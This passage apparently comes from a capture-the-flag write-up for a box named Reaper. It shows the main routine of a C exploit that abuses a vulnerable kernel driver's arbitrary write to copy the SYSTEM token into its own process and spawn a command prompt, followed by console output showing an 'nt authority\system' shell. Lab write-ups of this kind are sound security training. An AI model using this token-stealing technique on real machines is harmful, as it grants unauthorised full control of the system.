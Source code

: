 ```c

...

void main(void)
{

  LPCSTR FileName = (LPCSTR)"\\\\.\\Reaper";

  printf("[+] Getting Device Driver Handle\n");
  printf("[+] Device Name: %s\n", FileName);

  hFile = GetDeviceHandle(FileName);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("\t[-] Failed Getting Device Handle: 0x%X\n", GetLastError());
    exit(EXIT_FAILURE);
  }
  else {
    printf("[+] Device Handle: 0x%p\n", hFile);
  }

  eProcResult result = GetEProcessByPid(GetCurrentProcessId());
  eProcResult sysresult = GetEProcessByPid(4); // SYSTEM PID = 4

  // copy system token to our process
  printf("[+] copy system process token\n");
  arbWrite(result.eProcess + TokenPtr_OFFSET, sysresult.eProcess + TokenPtr_OFFSET);

  printf("[+] spawning command prompt\n\n");
    system("cmd.exe");

  if (hFile) CloseHandle(hFile);
}
```

After compiling the exploit and linking it statically (so there are no external dependencies), we upload it to the target box and run it using our RDP user from first step.

## shell as nt authority\\system

```
C:\users\keysvc\Desktop>.\reaper.exe
[+] Getting Device Driver Handle
[+] Device Name: \\.\Reaper
[+] Device Handle: 0x0000000000000050
[>] System _EPROCESS: 0xffff988588493040
[>] System Process: ffff98858ce0f080 (PID: 1772, TOKEN_PTR: ffffdc0edaec6066)
[>] System _EPROCESS: 0xffff988588493040
[>] System Process: ffff988588493040 (PID: 4, TOKEN_PTR: ffffdc0ed4e258d6)
[+] copy system process token
[+] spawning command prompt

Microsoft Windows [Version 10.0.20348.1906]
(c) Microsoft Corporation. All rights reserved.

C:\users\keysvc\Desktop>whoami
nt authority\system
``` 
